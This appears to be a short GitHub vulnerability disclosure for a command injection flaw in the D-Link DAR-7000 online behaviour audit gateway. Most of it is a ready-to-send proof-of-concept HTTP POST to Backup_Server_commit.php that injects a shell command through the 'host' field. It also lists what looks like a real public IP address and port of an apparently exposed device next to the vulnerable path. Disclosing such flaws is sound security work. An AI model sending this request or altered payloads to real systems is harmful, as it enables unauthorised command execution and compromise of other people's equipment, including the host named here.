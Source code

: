 The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/view/DBManage/Backup_Server_commit.php
221.193.248.37:9091

poc:
```
POST /view/DBManage/Backup_Server_commit.php?action=test HTTP/1.1
Host: 127.0.0.1
Cookie: 
Content-Length: 50
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Dnt: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close

host=`sleep${IFS}3`&mode=0&port=80&user=&password=
```
<img width="1014" alt="图片" src="https://github.com/user-attachments/assets/a22ce3c3-0797-4841-9c19-9353901e229b">

<img width="1019" alt="图片" src="https://github.com/user-attachments/assets/ec3ecb0e-d3a0-4814-a270-9d9eb196dc61">

